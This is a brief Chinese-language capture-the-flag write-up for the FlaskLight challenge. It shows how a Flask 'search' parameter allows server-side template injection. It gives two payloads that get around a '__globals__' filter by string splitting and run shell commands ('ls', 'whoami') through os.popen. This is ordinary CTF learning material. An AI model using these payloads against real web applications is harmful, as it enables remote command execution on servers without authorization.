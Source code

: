 # [CSCCTF 2019 Qual]FlaskLight

## 知识点

`SSTI`

`flask`

## 解题

题目首页源码提示传参到`search`,因为是`flask`,尝试`SSTI`的`payload`,发现存在`SSTI`

![](./img/[CSCCTF2019Qual]FlaskLight-1.png)

因为这题过滤了`__globals__`

![](./img/[CSCCTF2019Qual]FlaskLight-2.png)

用`payload`打的时候`500`了,然后一步步的找,最后发现是过滤了`__globals__`

```python
?search={{().__class__.__bases__[0].__subclasses__()[140].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

![](./img/[CSCCTF2019Qual]FlaskLight-3.png)

或者通过`config`可以直接找,构造简单

```lua
?search={{config.__init__['__global'+'s__'].os.popen("whoami").read()}}
```

[参考文章](https://www.cnblogs.com/Article-kelp/p/16050491.html)